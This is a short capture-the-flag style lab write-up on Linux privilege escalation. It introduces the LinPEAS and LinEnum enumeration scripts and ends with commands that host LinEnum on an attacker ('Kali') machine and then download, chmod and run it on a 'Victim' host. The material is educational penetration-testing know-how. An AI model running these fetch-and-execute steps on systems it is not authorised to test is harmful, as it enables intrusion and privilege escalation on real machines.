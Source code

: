 ## Unit 5 - Automating scripts

Even though I, personally, dislike any automatic enumeration scripts, they are really important to the privilege escalation process as they help you to omit the 'human error' in your enum process.&#x20;

\> Linpeas

LinPEAS - Linux local Privilege Escalation Awesome Script (.sh) is a script that searches for possible paths to escalate privileges on Linux/ hosts.&#x20;

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5e9c5d0148cf664325c8a075/room-content/5e9c5d0148cf664325c8a075-1716337058116" alt=""><figcaption></figcaption></figure>

Linpeas automatically searches for passwords, SUID files and Sudo right abuse to hint you on your way towards root.&#x20;

They are different ways of getting the script on the box, but the most reliable one would be to first download the script on your system and then transfer it on the target.

![](https://i.imgur.com/yAfGFDW.png)

`wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`

After that, you get a nice output with all the vulnerable parts marked.

\> LinEnum

The second tool on our list is LinEnum. It performs 'Scripted Local Linux Enumeration & Privilege Escalation Checks' and appears to be a bit easier than linpeas.

You can get the script by running:

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

Now, as you have two tools on the box, try running both of them and see if either of them shows something interesting!\
&#xNAN;_&#x50;lease note: It's always a good idea to run multiple scripts separately and compare their output, as far as each one of them has their own specific scope of exploration._



**Kali**

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd /tmp
wget http://$KALI:82/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
